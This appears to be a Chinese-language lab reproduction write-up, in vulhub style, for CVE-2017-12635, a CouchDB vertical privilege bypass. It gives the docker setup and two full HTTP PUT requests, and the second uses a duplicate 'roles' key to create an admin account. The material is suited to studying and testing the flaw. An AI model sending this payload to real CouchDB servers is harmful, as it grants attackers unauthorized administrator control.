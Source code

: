 # CVE-2017-12635 Couchdb 垂直权限绕过漏洞

## 一、漏洞简介

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

## 二、漏洞影响

小于 1.7.0 以及 小于 2.1.1

## 三、复现过程

环境搭建


```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://url:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

**漏洞复现**

首先，发送如下数据包：


```bash
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: www.hacked.com.cn:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色：

![](images/15889494212520.png)


发送包含两个roles的数据包，即可绕过限制：


```bash
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: www.hacked.com.cn:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

成功创建管理员，账户密码均为vulhub：

![](images/15889494540102.png)


再次访问`http://url:5984/_utils/`，输入账户密码vulhub，可以成功登录：

![](images/15889494701008.png)


**参考链接**

https://vulhub.org/#/environments/couchdb/CVE-2017-12635/